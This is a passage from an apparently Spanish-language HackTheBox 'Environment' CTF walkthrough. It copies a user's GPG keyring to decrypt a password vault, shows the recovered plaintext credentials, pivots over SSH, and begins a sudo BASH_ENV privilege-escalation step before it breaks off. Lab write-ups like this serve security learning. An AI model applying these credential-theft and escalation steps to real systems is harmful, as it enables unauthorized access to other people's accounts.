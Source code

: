 - En el directorio `home/hish/backup/`, encontramos un archivo encriptado `keyvault.gpg`
```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
```

- Para descifrar este archivo, copiamos el contenido del directorio `/home/hish/.gnupg/`, y los remplazamos por el que nos creó la herramienta `gpg` en nuestro directorio `/home/'user'`

```bash
❯ tree
.
├── private-keys-v1.d
│   ├── 3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
│   └── C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
├── pubring.kbx
└── trustdb.gpg

2 directories, 4 files
```

- Ejecutamos el comando `gpg -d keyvault.gpg` y obtenemos el contenido

```bash
gpg -d keyvault.gpg
gpg: cifrado con clave de 2048 bits RSA, ID B755B0EDD6CFCFD3, creada el 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- Con las credenciales anteriores nos conectamos por ssh como el usuario `hish`

### Obteniendo usuario `Root`

- Miramos permisos sudo con `sudo -l`
```bash
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- al ejecutarlo nos muestra información del sistema
- no parece aceptar parametros para ver ayuda ni nada

- Al abrirlo nos damos cuenta que es un script de bash
```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
```